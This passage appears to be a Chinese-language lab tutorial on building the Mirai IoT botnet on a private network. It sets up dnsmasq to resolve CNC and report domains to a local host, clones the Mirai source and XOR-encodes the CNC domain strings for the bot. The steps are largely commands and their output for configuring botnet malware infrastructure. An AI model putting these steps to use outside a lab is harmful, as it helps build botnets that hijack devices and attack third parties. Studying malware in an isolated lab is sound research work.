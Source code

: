 安装命令<br>
```
sudo apt install dnsmasq
```
修改配置文件，我使用的域名为test.me
```
vim /etc/dnsmasq.conf

resolv-file=/etc/resolv.conf  #设置resolv目录
strict-order  #严格按照从上到下选择dns
listen-address=192.168.3.36  #这个ip是我的kali机器，如果只想本地访问可以改为127.0.0.1

address=/test.me/192.168.3.34  #这里将test.me指向192.168.3.34
address=/cnc.test.me/192.168.3.34
address=/report.test.me/192.168.3.34

server=8.8.8.8  #设置google dns为第一指向dns
server=114.114.114.114
```
重启服务
```
service dnsmasq restart
```

验证是否搭建成功,在kali和ubuntu上使用nslook命令，ubuntu测试前记得重新配置一下dns<br>
```
nslookup 
> test.me
Server:         192.168.3.36
Address:        192.168.3.36#53

Name:   test.me
Address: 192.168.3.34
> cnc.test.me
Server:         192.168.3.36
Address:        192.168.3.36#53

Name:   cnc.test.me
Address: 192.168.3.34
> report.test.me
Server:         192.168.3.36
Address:        192.168.3.36#53

Name:   report.test.me
Address: 192.168.3.34
```


#### 对源码进行编译和参数配置
下载Mirai平台<br>
```
git clone https://github.com/jgamblin/Mirai-Source-Code
```
编译enc可执行文件，用于地址异或<br>
```
root@ubuntu:/home/test/Desktop# cd Mirai-Source-Code/mirai/tools/
gcc enc.c -o enc.out
```
配置cnc文件,这里使用test.me域名<br>
我曾经使用过纯IP配置cnc，同样提示无法解析域名，这个问题目前我还没有明白是什么原因造成。<br>
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# ./enc.out string test.me
XOR'ing 8 bytes of data...
\x56\x47\x51\x56\x0C\x4F\x47\x22
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# ./enc.out string cnc.test.me
XOR'ing 12 bytes of data...
\x41\x4C\x41\x0C\x56\x47\x51\x56\x0C\x4F\x47\x22
```
